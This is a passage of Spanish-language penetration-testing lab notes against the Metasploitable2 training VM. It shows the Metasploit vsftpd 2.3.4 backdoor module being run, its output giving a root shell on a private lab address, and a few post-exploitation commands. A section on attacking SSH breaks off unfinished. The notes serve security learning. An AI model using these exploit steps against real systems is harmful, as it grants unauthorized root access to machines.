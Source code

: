 También se puede ejecutar el comando `run`
```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
```

La salida es la siguiente
```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
  
[*] 10.0.200.5:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.0.200.5:21 - USER: 331 Please specify the password.
[+] 10.0.200.5:21 - Backdoor service has been spawned, handling...
[+] 10.0.200.5:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.0.200.4:40613 -> 10.0.200.5:6200) at 2023-07-30 15:37:23 -0400
```

Una vez que ha encontrado una shell en la máquina víctima, se pueden ejecutar comandos, por ejemplo `ifconfig eth0`, `whoami`, `ls`, etc

---
## 6. Atacar el servicio ssh (port22) usando searchsploit y metasploit

>[!info] Más información: 
> - https://www.youtube.com/watch?v=XalbmfxFie4&list=PLEAkrOvgdk5RnMOqvQmMeAHl6UFJNiUcs&index=6&pp=iAQB
> 


![](https://www.youtube.com/watch?v=r1Z7SxewjhM&list=PLxTwjzMO9Zf589vKfMm_MPHvx20soRiC8&index=12)


Sabemos que la versión de ssh de Metasploit2 es `___`

1. Consultar a searchsploit por el servicio y versión de la víctima.

>[!danger] Falta continuar!!!



---



